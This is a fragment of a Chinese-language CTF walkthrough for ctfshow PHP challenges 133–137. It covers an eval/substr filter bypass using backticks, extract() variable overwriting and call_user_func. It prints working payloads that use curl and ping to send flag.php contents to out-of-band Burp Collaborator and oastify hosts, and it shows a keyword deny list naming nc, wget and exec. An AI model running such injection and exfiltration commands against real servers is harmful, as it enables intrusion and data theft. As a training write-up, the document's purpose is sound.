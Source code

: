 ```php
<?php
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}

```

> 我们传递?F=\`$F\`;+sleep 3好像网站确实sleep了一会说明的确执行了命令
> **那为什么会这样？**
> 因为是我们传递的\`\$F\`;+sleep 3。先进行substr()函数截断然后去执行eval()函数
> 这个函数的作用是执行php代码，\`\`是shell_exec()函数的缩写，然后就去命令执行。
> 而\$F就是我们输入的\`\$\F\`;+sleep 3 使用最后执行的代码应该是
> \`\`\$F\`;+sleep 3`,就执行成功
> 这里可能有点绕，慢慢理解

> ?F=\`$F`;+curl -X POST -F xx=@flag.php  http://8clb1g723ior2vyd7sbyvcx6vx1ppe.burpcollaborator.net

# 134 extract($_POST)

php变量覆盖 利用点是 extract(\$\_POST); 进行解析$_POST数组。 先将GET方法请求的解析成变量，然后在利用extract() 函数从数组中将变量导入到当前的符号表

# 135 133加强版

```php
`$F`;+ping `cat flag.php|awk 'NR==2'`.dm3sbjacb5im4zj0lpipkcus8je92y.oastify.com
#通过ping命令去带出数据，然后awk NR一排一排的获得数据
```

> AWK， 数据过滤工具 (类似于grep，比grep强大)，属数据处理引擎，基于模式匹配检查输入文本，逐行处理并输出。通常用在Shell脚本中，获取指定的数据，单独使用时，可对文本数据做统计
>
> **格式**
>
> 格式1：前置命令 | awk [选项] ‘条件{编辑指令}’

# 137 call_user_func()

[call_user_func()](https://www.php.net/manual/zh/function.call-user-func.php)

类静态方法的调用

```
ctfshow=ctfshow::getFlag
```
